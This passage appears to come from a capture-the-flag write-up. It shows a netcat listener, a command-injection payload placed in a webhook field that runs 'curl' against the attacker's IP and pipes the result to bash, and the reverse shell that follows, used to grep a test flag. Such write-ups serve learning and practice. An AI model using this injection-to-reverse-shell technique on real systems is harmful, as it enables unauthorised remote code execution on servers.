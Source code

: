```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 1111
listening on [any] 1111 ...
```

Register with a crafted webhook then request password reset

```bash
https://webhook.site/b6ff89ca-8b60-4200-a9dc-9779b87d934f;curl${IFS}34.243.85.91|bash#
```

![](/assets/obsidian/5f0220f1f4784ee2dd87566223e76d3f.png){:target='_blank'}

![](/assets/obsidian/453f1c657e3a6615bb099ad7600afb86.png){:target='_blank'}

```bash
┌──(root㉿kali)-[~]
└─# nc -lvnp 1111
listening on [any] 1111 ...
connect to [34.243.85.91] from (UNKNOWN) [184.72.110.40] 55182
bash: cannot set terminal process group (131): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b72917865ad1:/var/www/html/modules$ cd ..
cd ..
www-data@b72917865ad1:/var/www/html$ grep -rin flag
grep -rin flag
admin.php:19:        <h3>CACI{FAKE_FLAG_FOR_TESTING}</h3>
www-data@b72917865ad1:/var/www/html$
```

# Misc
